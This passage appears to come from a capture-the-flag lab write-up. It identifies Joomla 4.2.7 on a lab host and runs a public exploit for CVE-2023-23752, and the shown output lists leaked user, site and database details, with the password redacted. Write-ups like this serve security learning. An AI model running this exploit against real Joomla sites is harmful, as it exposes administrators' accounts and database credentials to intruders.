 `Joomla version 4.2.7`

---

### Robots.txt

Inspection of `/robots.txt` revealed restricted Joomla-related directories:  
![Robots.txt discovery](./images/robots.png)

---

# **Exploit**

The identified Joomla version is vulnerable to **CVE-2023-23752**, an information disclosure flaw.  

Reference: [https://github.com/Acceis/exploit-CVE-2023-23752](https://github.com/Acceis/exploit-CVE-2023-23752)

```bash
…exploit-CVE-2023-23752 on 🌿 master 
➜ ruby exploit.rb http://10.201.28.136
Users
[377] root (root) - mail@tourism.thm - Super Users

Site info
Site name: Tourism
Editor: tinymce
Captcha: 0
Access: 1
Debug status: false

Database info
DB type: mysqli
DB host: localhost
DB user: root
DB password: [REDACTED]
DB name: joomla_db
DB prefix: ecsjh_
```
